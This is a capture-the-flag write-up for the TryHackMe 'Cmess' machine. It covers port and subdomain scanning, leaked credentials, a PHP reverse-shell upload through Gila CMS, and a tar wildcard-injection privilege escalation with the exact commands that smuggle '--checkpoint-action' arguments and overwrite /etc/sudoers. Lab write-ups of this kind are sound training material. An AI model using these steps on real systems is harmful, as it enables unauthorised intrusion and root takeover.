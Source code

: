 ```yaml
---
date: 2020-05-18
layout: post
title: "Cmess"
subtitle:
description: Medium Machine from tryhackme
image: /writeup/assets/img/cmess/cmess.png
optimized_image:
category: tryhackme
tags: 
author: cirius
paginate: false
---
```


Starting with what is told to do by machine author.
Making an entry for the ip in /etc/hosts.

Added ***10.10.10.185.18  cmess.thm*** to the /etc/hosts file.

Scanning for open ports gives,
```bash
nmap -T4 -p- -A 10.10.185.18
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%), Android 7.1.1 - 7.1.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   376.32 ms 10.8.0.1
2   376.38 ms cmess.thm (10.10.160.221)
```
The website hosted at port 80 contains robots.txt
![placeholder](/writeup/assets/img/cmess/robots.png "robot")

Accessing all the directories listed in robots.txt gives FORBIDDEN 403 error.
Directory and file file busting through ffuf gives
 ![placeholder](/writeup/assets/img/cmess/directory.png "directory")
 admin directory gives a login page.
 ![placeholder](/writeup/assets/img/cmess/login.png "login")
 The website is working with GilaCMS as written on the homepage.
 Nothing interesting found yet. Searching for exploits also is not much helpful as version of gilacms is still unknown.
 
 Then I thought to go for subdomains.
 ```bash
 ffuf -w sublists -u http://cmess.thm -H "Host: FUZZ.cmess.thm" -fw 522
 
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
________________________________________________

 :: Method           : GET
 :: URL              : http://cmess.thm/
 :: Header           : Host: FUZZ.cmess.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response words: 522
________________________________________________

dev                     [Status: 200, Size: 934, Words: 191, Lines: 31]

## Here fw specifies the amount of words to filter. This can be set as first run the scan without fw and see the response which are getting 200 and
## note the number of words in their response.That number which is common in most use it as word filter(fw) in the next scan
```
So I got a subdomain dev.
Make an entry of this subdomain in the /etc/hosts file.
It will look like
![placeholder](/writeup/assets/img/cmess/hosts.png "hosts")

Now accessing the subdomain *dev.cmess.thm* gives
![placeholder](/writeup/assets/img/cmess/mail.png "mail")

Got an email and a password.

**andre@cmess.thm:KPFTN_f2yxe%**
Used it to login at the login page.
 ![placeholder](/writeup/assets/img/cmess/gila.png "gilacms")
 
Clicked on Content and then file manager and reached the directory where all the files related to website are stored.
Uploaded a php reverse shell with the upload option inside assets directory.

Accessed the php file at *http://cmess.thm/assets/phpshell.php* and got the reverse shell.
![placeholder](/writeup/assets/img/cmess/shell.png "shell")

Found .password.bak file inside /opt/. Found a password inside the file.
```bash
cat .password.bak
andres backup password
UQfsdCB7aAP6
```
Used this password to login with ssh as andre user.
![placeholder](/writeup/assets/img/cmess/ssh.png "ssh")

Got the user.txt.

Uploaded Linpeas.sh using wget and ran it.

This showed a 99% P.E. Vector at a cron job
![placeholder](/writeup/assets/img/cmess/linpeas.png "cron")

This cronjob is using tar with wildcard(*).So I used wildcard injection.
Executed these commands.
```bash
echo 'echo "andre ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "" > "--checkpoint-action=exec=sh privesc.sh"
echo "" > --checkpoint=1

##tar command uses **checkpoint-action=ACTION** argument to execute the ACTION on each checkpoint

##--checkpoint[=NUMBER]
  ##  display progress messages every NUMBERth record (default 10)
```
You can learn more about tar wildcard injection <a href="https://medium.com/@int0x33/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e">here</a>.

The above commands create three files
* A file named privesc.sh; which contains the commands I want to run
* A file named "--checkpoint-action=exec=sh privesc.sh";this will trigger the tar command to execute privesc.sh when a checkpoint is reached.
* A file named "--checkpoint=1"; this will make checkpoint-action to trigger at every 1th record read rather than default 10th record read.

Now when the cron job executes it creates an entry in sudoers file to grant andre user permission to run sudo for all commands without asking for password.

Changed the user to root.

```bash
sudo su
```

Got the root.txt.





 

